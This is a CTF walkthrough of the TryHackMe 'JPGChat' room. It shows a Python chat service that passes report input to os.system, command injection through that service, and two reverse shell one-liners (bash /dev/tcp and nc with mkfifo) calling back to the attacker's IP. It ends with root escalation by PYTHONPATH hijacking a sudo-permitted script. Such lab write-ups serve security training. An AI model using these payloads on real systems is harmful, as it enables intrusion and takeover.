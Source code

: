 ```yaml
---

title: Walkthrough - JPGChat
published: true
---
```


Tags: Python3, OS, Chatting, Report.
Description: Exploiting poorly made custom chatting service written in a certain language...
Difficulty: Easy
URL: [https://tryhackme.com/room/jpgchat](https://tryhackme.com/room/jpgchat)

* * *

## Notes

- `sudo nmap -sC -sV -sT --script vuln -O -p22,3000 10.10.237.128`

```
PORT     STATE SERVICE    VERSION
22/tcp   open  ssh        OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
3000/tcp open  tcpwrapped
```

- `telnet 10.10.237.128 3000` lets us know we can find the service sourcecode at the github.
- [https://github.com/Mozzie-jpg/JPChat](https://github.com/Mozzie-jpg/JPChat)

```python
#!/usr/bin/env python3

import os

print ('Welcome to JPChat')
print ('the source code of this service can be found at our admin\'s github')

def report_form():

	print ('this report will be read by Mozzie-jpg')
	your_name = input('your name:\n')
	report_text = input('your report:\n')
	os.system("bash -c 'echo %s > /opt/jpchat/logs/report.txt'" % your_name)
	os.system("bash -c 'echo %s >> /opt/jpchat/logs/report.txt'" % report_text)

def chatting_service():

	print ('MESSAGE USAGE: use [MESSAGE] to message the (currently) only channel')
	print ('REPORT USAGE: use [REPORT] to report someone to the admins (with proof)')
	message = input('')

	if message == '[REPORT]':
		report_form()
	if message == '[MESSAGE]':
		print ('There are currently 0 other users logged in')
		while True:
			message2 = input('[MESSAGE]: ')
			if message2 == '[REPORT]':
				report_form()

chatting_service()
```

Using [REPORT] and then using `;` to end the function followed by a bash revshell `sh -i >& /dev/tcp/10.2.127.225/6666 0>&1` gets us our first shell. This shell isnt stable and doesnt seem to give us output but using `rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.2.127.225 6667 >/tmp/f` gets us a more stable shell.

* * * 

## What is the content of user.txt?

![](/assets/jpgchat01.png)

* * * 

## What is the content of root.txt?

- `sudo -l` guartentee 

```
User wes may run the following commands on ubuntu-xenial:
    (root) SETENV: NOPASSWD: /usr/bin/python3 /opt/development/test_module.py
```

So we only have read, access. Time to check out the source.

```
#!/usr/bin/env python3

from compare import *

print(compare.Str('hello', 'hello', 'hello'))
```

I then followed https://github.com/xnomas/TryHackMe-Writeups/tree/main/JPGchat because i dont know python.

```
(local) pwncat$ upload compare.py
./compare.py ━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━ 100.0% • 375/375 bytes • ? • 0:00:00
[17:50:08] uploaded 375.00B in 1.96 seconds                                                                                    upload.py:76
(local) pwncat$                                                                                                                            
(remote) wes@ubuntu-xenial:/dev/shm$ ls -las
total 16
 0 drwxrwxrwt  2 root root    80 Aug 23 00:40 .
 0 drwxr-xr-x 16 root root  3560 Aug 23 00:09 ..
 4 -rw-r--r--  1 wes  wes    375 Aug 23 00:50 compare.py
12 -rw-------  1 wes  wes  12288 Aug 23 00:20 .compare.py.swp
(remote) wes@ubuntu-xenial:/dev/shm$ sudo PYTHONPATH=/dev/shm/ /usr/bin/python3 /opt/development/test_module.py
root@ubuntu-xenial:/dev/shm# cd /root
root@ubuntu-xenial:/root# ls -las
total 24
4 drwx------  3 root root 4096 Jan 15  2021 .
4 drwxr-xr-x 25 root root 4096 Aug 23 00:09 ..
4 -rw-r--r--  1 root root 3106 Oct 22  2015 .bashrc
4 -rw-r--r--  1 root root  148 Aug 17  2015 .profile
4 -rw-r--r--  1 root root  305 Jan 15  2021 root.txt
4 drwx------  2 root root 4096 Jan 15  2021 .ssh
root@ubuntu-xenial:/root# cat root.txt
[REDACTED]

Also huge shoutout to Westar for the OSINT idea
i wouldn't have used it if it wasnt for him.
and also thank you to Wes and Optional for all the help while developing

You can find some of their work here:
https://github.com/WesVleuten
https://github.com/optionalCTF
root@ubuntu-xenial:/root# 
[18:24:02] warning: 10.10.225.187:58648: connection reset   
```

* * * 


